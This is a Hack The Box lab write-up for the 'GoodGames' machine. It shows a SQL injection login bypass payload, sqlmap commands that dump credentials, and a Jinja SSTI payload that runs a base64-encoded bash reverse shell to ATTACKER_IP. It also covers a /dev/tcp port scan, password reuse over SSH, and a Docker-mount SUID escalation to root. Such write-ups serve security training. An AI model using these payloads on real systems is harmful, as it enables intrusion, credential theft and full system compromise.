<div align="left">


</div>

## GoodGames — Hack The Box Write-Up

<div align="left">

<br>
<br>


</div>

This machine demonstrates a **clean vulnerability chain**, starting from SQL Injection and ending in a full Docker breakout with SUID-based privilege escalation.

Attack surface included:

- Authentication bypass via SQL Injection
- Database enumeration & hash extraction
- Credential reuse
- Server Side Template Injection (SSTI) in Flask
- Docker misconfiguration exploitation
- SUID privilege escalation on host

---

## 🛠 Tools

```
nmap              → service discovery
burpsuite         → request interception & manipulation
sqlmap            → automated SQLi exploitation
hashcat/crackstation → hash cracking
nc                → reverse shell listener
bash              → internal port scanning
ssh               → lateral movement
```

---

## 🔍 Enumeration

Initial scan:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.130 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC -Pn 10.10.11.130
```



Only **port 80** exposed → Python 3.9.2 web application.

Domain added:

```bash
echo "10.10.11.130 goodgames.htb" | sudo tee -a /etc/hosts
```

---

## 💉 SQL Injection — Authentication Bypass

Login form validates email format.


Payload used:

```
admin' OR 1=1 -- -
```

Intercepted via Burp → modified email parameter → successful admin authentication.


SQL Injection confirmed.

---

## 🗄 Database Enumeration

Request saved as:

```
goodgames.req
```

Enumerate databases:

```bash
sqlmap -r goodgames.req --dbs
```



Database identified:

```
main
```



Enumerate tables:

```bash
sqlmap -r goodgames.req -D main --tables
```



Target table:

```
user
```

Dump credentials:

```bash
sqlmap -r goodgames.req -D main -T user --dump
```



Extracted hash:

```
2b22397f218b2d8d8dc36bf77e7cb8ec
```

Cracked password:

```
superadministrator
```



## 🔁 Credential Reuse

New subdomain discovered:




```
internal-administration.goodgames.htb
```


Hosts updated and login successful using reused credentials.

This confirms poor credential hygiene.

---

## ⚡ SSTI — Server Side Template Injection

Flask dashboard allows username modification.

Test payload:

```
{{7*7}}
```

Response:

```
49
```

SSTI confirmed.

---

## 🔥 Reverse Shell via SSTI

Generate payload:

```bash
echo -ne 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' | base64
```

Listener:

```bash
nc -lvvp 4444
```

Injected payload:

```jinja
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}BASE64|base64${IFS}-d|bash').read()}}
```

Shell obtained inside Docker container.



---

## 🐳 Docker Enumeration

Inside container:

```bash
id
mount
```

Key observations:

- Running as root inside Docker
- `/home/augustus` mounted with read/write
- Container IP: 172.19.0.2
- Host likely at: 172.19.0.1

---

## 🔎 Internal Port Discovery

Nmap unavailable → manual scan:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

Port 22 (SSH) open internally.

---

## 🔐 Lateral Movement — SSH

```bash
ssh augustus@172.19.0.1
```

Password reused:

```
superadministrator
```

Access granted.

---

## ⬆ Privilege Escalation — Docker Breakout + SUID

Because host home directory is mounted inside Docker, permission changes reflect on host.

### On Host (as augustus)

```bash
cp /bin/bash .
exit
```



### Inside Docker (as root)

```bash
chown root:root bash
chmod 4755 bash
```


SUID bit applied.

---

## 👑 Root Access

Back on host:

```bash
./bash -p
id
```

```
euid=0(root)
```



Full system compromise achieved.

---

## 🧠 What This Box Teaches

- SQL Injection remains critical in authentication logic
- Password reuse amplifies impact
- SSTI in Flask (`render_template_string`) is dangerous
- Docker isolation can fail when volumes are misconfigured
- SUID misconfiguration leads to total compromise

---

## 📌 Conclusion

GoodGames is not complex — it is realistic.

A small web flaw combined with weak credential practices and poor container isolation leads to full root compromise.

> If a container can write to host-mounted directories, privilege escalation is one step away.

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and real-world security execution

Happy hacking 🚀

# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)
